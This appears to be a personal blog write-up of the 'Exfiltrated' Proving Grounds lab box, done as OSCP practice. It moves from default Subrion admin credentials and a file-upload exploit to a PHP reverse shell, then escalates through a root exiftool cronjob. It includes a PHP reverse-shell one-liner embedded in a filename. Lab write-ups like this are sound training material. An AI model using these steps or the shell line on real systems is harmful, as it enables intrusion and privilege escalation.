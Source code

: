 ```yaml
---
layout: writeup
title: Exfiltrated - Proving Grounds
date: 2024-07-12 13:32:20 +0300
description: A Writeup of the Exfiltrated Box from Proving Grounds
image: # /assets/images/Exfiltrated/subrion.png
fig-caption: # Add figcaption (optional)
tags: [TJ Null, LainKusunagi, Linux]
---
```



Ok, still working through TJ Null's OSCP [lab prep list](https://docs.google.com/spreadsheets/u/1/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/htmlview#) with another [Proving Grounds](https://www.offsec.com/labs/) box. This one is called "Exfiltrated." It is also on LainKusanagi's [list of OSCP like machines](https://www.reddit.com/r/oscp/comments/1c8pzyz/lainkusanagi_list_of_oscp_like_machines/), which I saw on Reddit, so I've been going through those as well. Nice to have some overlap. 

As usual, let's kick things off with a basic nmap scan which revealed these ports:

PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http

Since we're usually not going to find anything on port 22 with a lab like this, I went ahead and got started checking out the web page on port 80 while I ran a ful port scan (which showed nothing) and enumerated directories. Right off the bat, I could see that putting the IP in the URL bar caused a changed to exfiltrated.offsec, so I went ahead and added that to my /etc/hosts file to help things run a little bit smoother. 

![Exfiltrated Kickstart](/assets/images/Exfiltrated/kickstart.png){: .center-aligned width="600px"}

Looks like we have another CMS, and right ahead we can see that there is a login page. However, we can also see from out directory scan that we have page called exfiltrated.offsec/panel/blog/register which states explicitly that it is the Subrion Admin Panel. 

![Exfiltrated Admin](/assets/images/Exfiltrated/subrion.png){: .center-aligned width="600px"}

I decided to focus my efforts there, but since I don't have any creds yet, it was time to look around for public exploits for Subrion in particular. 

![Exfiltrated Searchsploit](/assets/images/Exfiltrated/searchsploits.png){: .center-aligned width="600px"}

Since the admin page tells us we are on v4.2.1, I checked those out first. XSS might not be super helpful here as we can't really rely on any other users to interact with the system, so that leaves use with the Abitrary File Upload and the CSRF which apparently adds an admin user. Typically for a box like this, I would expect a File Upload exploit to help us get a reverse shell, but when I tried to run it, it required authentication. That's too bad, but we have the CSRF for that. After checking that exploit briefly, I figured it might make sense to at least check for a few easy logins first before trying to run it. I tried admin:admin, and we were in immediately. I should note that I first searched "Subrion Default Creds" in google, and I see this as the third result:

![Exfiltrated Google](/assets/images/Exfiltrated/google.png){: .center-aligned width="600px"}

I didn't click on it to try, but it definitely let me know I was on the right track. Shout out to [jayngng](https://jayngng.github.io/) lol. At this point I knew I could use those creds for the File Upload vulnerability, so I got that working and got a reverse shell. 

![Exfiltrated Google](/assets/images/Exfiltrated/shellcaught.png){: .center-aligned width="600px"}

Unfortuanately this was not a particularly interactive shell. I couldn't change directories, and while I could download files from my python server, I couldn't execute them, or apparently even change permissions on them so they were executable. After shamefully long time looking around, I realized that if I could upload a file remotely and execute it, I could also probably just upload a shell through the admin panel myself and execute it from there. I did take a detour and check out the SQL tool available in the admin panel, even finding a password and taking a while to crack it in case it helped me get in through ssh. 

![Exfiltrated SQL Tool](/assets/images/Exfiltrated/sqlpage.png){: .center-aligned width="600px"}

Guess what that that bcrypt hash cracks to? Yep, admin. Oops. No worries, I did make my way to the Uploads page and try a few reverse shells. Eventually I went with one from [Ivan Sincek](https://github.com/ivan-sincek/php-reverse-shell) I found on [revshells.com](https://www.revshells.com/) since I've used it before, and it's pretty stable. I also used the .phar extension when I uploaded it because that's what the File Upload exploit used. From there I was able change permissions to linpeas and run it. One that that stuck out was this cronjob:
<br>
| root	bash /opt/image-exif.sh |
<br>

I checked out the script, and it looked like this: 

    #! /bin/bash
    #07/06/18 A BASH script to collect EXIF metadata 
    
    echo -ne "\\n metadata directory cleaned! \\n\\n"
    
    
    IMAGES='/var/www/html/subrion/uploads'
    
    META='/opt/metadata'
    FILE=`openssl rand -hex 5`
    LOGFILE="$META/$FILE"
    
    echo -ne "\\n Processing EXIF metadata now... \\n\\n"
    ls $IMAGES | grep "jpg" | while read filename; 
    do 
        exiftool "$IMAGES/$filename" >> $LOGFILE 
    done
    
    echo -ne "\\n\\n Processing is finished! \\n\\n\\n"
<br>

I analyzed it for a little bit and realized it was taking jpg's from the uploads folder, reading the file name, and then doing something, but I wasn't sure what. So I uploaded a picture to see, did some googling, and realized that it was just taking the filename and turning it into a random hex code to store in the /opt/metadata folder. At this point I figured I could just upload a picture with a shell code as the name, and the exiftool would read and execute. That turned out not to be true, but I did upload a picture of Orville Redenbacher named, "php -r '$sock=fsockopen("$myIP",4444);exec("sh <&3 >&3 2>&3");'" before I realized it. I did a little more googling, and realized there were a few public exploits for exiftool. I pulled [this one](https://www.exploit-db.com/exploits/50911) from exploit-db, but I couldn't get it working. I did a little more googling, and found a re-written version of the same exploit which checked for dependencies and suggested missing ones. Helpful!

![Exfiltrated Exploit Dependencies](/assets/images/Exfiltrated/dependencies.png){: .center-aligned width="600px"}

So I installed those and ran the exploit again. 

![Exfiltrated Proof](/assets/images/Exfiltrated/proof.png){: .center-aligned width="600px"}

Boom. Overall it was a pretty simple box, but it was a helpful exercise in reading carefully and being patient because I did have to make a few different attempts at basically every step. One thing to note - there's two flags on this machine. If you want to get both, you need to check the user's home directory which I was only able to do after rooting the machine. Til next time. 
